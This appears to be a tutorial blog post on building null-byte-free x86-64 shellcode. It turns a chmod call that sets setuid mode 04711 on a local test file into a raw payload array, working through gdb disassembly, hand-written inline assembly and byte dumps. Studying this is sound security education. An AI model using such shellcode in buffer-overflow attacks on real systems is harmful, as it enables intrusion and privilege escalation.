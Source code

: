 ```yaml
---
layout: post
ads: true
comments: true
published: true
title: How to generate shellcode payload
categories:
  - linux
  - program
tags:
  - shellcode
  - bufferoverflow
---
```

#### Ref
- [Buffer Overflows and You](https://turkeyland.net/projects/overflow/shell.php)

##### Input/output:
- Input

```c
/*
File: mychmod.c
*/

#include <sys/stat.h>

int main() {
  chmod("/home/dvn0zz/ccppsamples/bufferOverflow/test.txt", 04711);
}
```

- Output:
```c
char payload[] =
  "\x48\xbe\xc9\x19\x11\x11\x11\x11\x11\x11\x48\xc1\xe6\x34\x48\xc1\xee\x34\x48"
  "\x31\xff\x57\x48\xbf\x74\x65\x73\x74\x2e\x74\x78\x74\x57\x48\xbf\x76\x65\x72"
  "\x66\x6c\x6f\x77\x2f\x57\x48\xbf\x2f\x62\x75\x66\x66\x65\x72\x4f\x57\x48\xbf"
  "\x70\x73\x61\x6d\x70\x6c\x65\x73\x57\x48\xbf\x6e\x30\x7a\x7a\x2f\x63\x63\x70"
  "\x57\x48\xbf\x2f\x68\x6f\x6d\x65\x2f\x64\x76\x57\x48\x89\xe7\x48\xb8\x5a\x11"
  "\x11\x11\x11\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x0f\x05";
```

##### Steps
**Step1**: Get input info

```bash
$ gcc -o mychmod mychmod.c
$ gdb mychmod
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004009ae <+0>:     push   %rbp
   0x00000000004009af <+1>:     mov    %rsp,%rbp
   0x00000000004009b2 <+4>:     mov    $0x9c9,%esi
   0x00000000004009b7 <+9>:     mov    $0x4a0ee8,%edi
   0x00000000004009bc <+14>:    callq  0x43f120 <chmod>
   0x00000000004009c1 <+19>:    mov    $0x0,%eax
   0x00000000004009c6 <+24>:    pop    %rbp
   0x00000000004009c7 <+25>:    retq
End of assembler dump.

(gdb) disassemble chmod
Dump of assembler code for function chmod:
   0x000000000043f120 <+0>:     mov    $0x5a,%eax
   0x000000000043f125 <+5>:     syscall
   0x000000000043f127 <+7>:     cmp    $0xfffffffffffff001,%rax
   0x000000000043f12d <+13>:    jae    0x444170 <__syscall_error>
   0x000000000043f133 <+19>:    retq
End of assembler dump.
```

Here we get:
- EAX (RAX) register loaded with system call number for chmod (0x5a)
- EDI (RDI) register loaded with address of first argument, which is filepath string ($0x4a0ee8)
- ESI (RSI) register loaded with second argument has octal value of 04711 (0x9c9)

**Step2**: Mimic assembly code

To mimic setting EAX, ESI value is simple, but to set value for EDI we need put our file path string somewhere and then set address to EDI. Here we will do that by push string on stack then store RSP into EDI. Before we do that, we need convert string to hex represent and also if machine is little-endian (it is in my case) we need to change bytes order also. We will use python3 to do this task.

```bash
$ python3
>>> filepath = "/home/dvn0zz/ccppsamples/bufferOverflow/test.txt"
>>> filepath_byte_arr = bytearray(filepath.encode("ascii"))
>>> filepath_byte_arr.hex()
'2f686f6d652f64766e307a7a2f6363707073616d706c65732f6275666665724f766572666c6f772f746573742e747874'
>>> filepath_byte_arr.reverse()
>>> filepath_byte_arr.hex()
'7478742e747365742f776f6c667265764f7265666675622f73656c706d6173707063632f7a7a306e76642f656d6f682f'
```

Now we can set value for EDI (RDI) like this:

```c
"xor    %rdi,%rdi\n\t"
"push   %rdi\n\t"

"mov    $0x7478742e74736574,%rdi\n\t"
"push   %rdi\n\t"
"mov    $0x2f776f6c66726576,%rdi\n\t"
"push   %rdi\n\t"
"mov    $0x4f7265666675622f,%rdi\n\t"
"push   %rdi\n\t"
"mov    $0x73656c706d617370,%rdi\n\t"
"push   %rdi\n\t"
"mov    $0x7063632f7a7a306e,%rdi\n\t"
"push   %rdi\n\t"
"mov    $0x76642f656d6f682f,%rdi\n\t"
"push   %rdi\n\t"
"mov    %rsp,%rdi\n\t"
```

**Note**: why we need first two instruction? That is because the string need be null terminated

With this we have full mimic assembly code as below:

```c
/*
File: mychmod_asm.c
*/
int main() {
  __asm__("mov    $0x11111111111119c9,%rsi\n\t"
          "shl    $0x34,%rsi\n\t"
          "shr    $0x34,%rsi\n\t" // set RSI to 0x9c9

          "xor    %rdi,%rdi\n\t"
          "push   %rdi\n\t"

          "mov    $0x7478742e74736574,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    $0x2f776f6c66726576,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    $0x4f7265666675622f,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    $0x73656c706d617370,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    $0x7063632f7a7a306e,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    $0x76642f656d6f682f,%rdi\n\t"
          "push   %rdi\n\t"
          "mov    %rsp,%rdi\n\t" // set RDI to address of filepath string

          "mov    $0x111111111111115a,%rax\n\t"
          "shl    $0x38,%rax\n\t"
          "shr    $0x38,%rax\n\t" // set RAX to syscall number of chmod
          "syscall\n\t"

          "add    $0x38,%rsp" // pop out what are put on stack)
  );
}
```

**Note**: why when setting value for RSI/RAX we need three instruction like above? That is we dont want it to have 00 in our output payload (which is null terminated). So the trick here is, for example to set value of 0x9c9 into RSI, we set all 0 bits to 1, left shift RSI to clear those bits, then right shift RSI to get actual value.

**Step3**: Get shellcode payload

```bash
$ gcc -o mychmod_asm mychmod_asm.c
$ gdb mychmod_asm
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004004d6 <+0>:     push   %rbp
   0x00000000004004d7 <+1>:     mov    %rsp,%rbp
   0x00000000004004da <+4>:     movabs $0x11111111111119c9,%rsi
   0x00000000004004e4 <+14>:    shl    $0x34,%rsi
   0x00000000004004e8 <+18>:    shr    $0x34,%rsi
   0x00000000004004ec <+22>:    xor    %rdi,%rdi
   0x00000000004004ef <+25>:    push   %rdi
   0x00000000004004f0 <+26>:    movabs $0x7478742e74736574,%rdi
   0x00000000004004fa <+36>:    push   %rdi
   0x00000000004004fb <+37>:    movabs $0x2f776f6c66726576,%rdi
   0x0000000000400505 <+47>:    push   %rdi
   0x0000000000400506 <+48>:    movabs $0x4f7265666675622f,%rdi
   0x0000000000400510 <+58>:    push   %rdi
   0x0000000000400511 <+59>:    movabs $0x73656c706d617370,%rdi
   0x000000000040051b <+69>:    push   %rdi
   0x000000000040051c <+70>:    movabs $0x7063632f7a7a306e,%rdi
   0x0000000000400526 <+80>:    push   %rdi
   0x0000000000400527 <+81>:    movabs $0x76642f656d6f682f,%rdi
   0x0000000000400531 <+91>:    push   %rdi
   0x0000000000400532 <+92>:    mov    %rsp,%rdi
   0x0000000000400535 <+95>:    movabs $0x111111111111115a,%rax
   0x000000000040053f <+105>:   shl    $0x38,%rax
   0x0000000000400543 <+109>:   shr    $0x38,%rax
   0x0000000000400547 <+113>:   syscall
   0x0000000000400549 <+115>:   add    $0x38,%rsp
   0x000000000040054d <+119>:   mov    $0x0,%eax
   0x0000000000400552 <+124>:   pop    %rbp
   0x0000000000400553 <+125>:   retq
End of assembler dump.
(gdb) p (0x0000000000400549 - 0x00000000004004da)
$1 = 111
(gdb) x/111bx 0x00000000004004da
0x4004da <main+4>:      0x48    0xbe    0xc9    0x19    0x11    0x11    0x11    0x11
0x4004e2 <main+12>:     0x11    0x11    0x48    0xc1    0xe6    0x34    0x48    0xc1
0x4004ea <main+20>:     0xee    0x34    0x48    0x31    0xff    0x57    0x48    0xbf
0x4004f2 <main+28>:     0x74    0x65    0x73    0x74    0x2e    0x74    0x78    0x74
0x4004fa <main+36>:     0x57    0x48    0xbf    0x76    0x65    0x72    0x66    0x6c
0x400502 <main+44>:     0x6f    0x77    0x2f    0x57    0x48    0xbf    0x2f    0x62
0x40050a <main+52>:     0x75    0x66    0x66    0x65    0x72    0x4f    0x57    0x48
0x400512 <main+60>:     0xbf    0x70    0x73    0x61    0x6d    0x70    0x6c    0x65
0x40051a <main+68>:     0x73    0x57    0x48    0xbf    0x6e    0x30    0x7a    0x7a
0x400522 <main+76>:     0x2f    0x63    0x63    0x70    0x57    0x48    0xbf    0x2f
0x40052a <main+84>:     0x68    0x6f    0x6d    0x65    0x2f    0x64    0x76    0x57
0x400532 <main+92>:     0x48    0x89    0xe7    0x48    0xb8    0x5a    0x11    0x11
0x40053a <main+100>:    0x11    0x11    0x11    0x11    0x11    0x48    0xc1    0xe0
0x400542 <main+108>:    0x38    0x48    0xc1    0xe8    0x38    0x0f    0x05
(gdb)
```

Here we only need payload for instruction from <main+4> to <main+115>. Now we can copy above output into a text editor to remove extra part and get output payload as below:

```c
char payload[] =
  "\x48\xbe\xc9\x19\x11\x11\x11\x11\x11\x11\x48\xc1\xe6\x34\x48\xc1\xee\x34\x48"
  "\x31\xff\x57\x48\xbf\x74\x65\x73\x74\x2e\x74\x78\x74\x57\x48\xbf\x76\x65\x72"
  "\x66\x6c\x6f\x77\x2f\x57\x48\xbf\x2f\x62\x75\x66\x66\x65\x72\x4f\x57\x48\xbf"
  "\x70\x73\x61\x6d\x70\x6c\x65\x73\x57\x48\xbf\x6e\x30\x7a\x7a\x2f\x63\x63\x70"
  "\x57\x48\xbf\x2f\x68\x6f\x6d\x65\x2f\x64\x76\x57\x48\x89\xe7\x48\xb8\x5a\x11"
  "\x11\x11\x11\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x0f\x05";
```
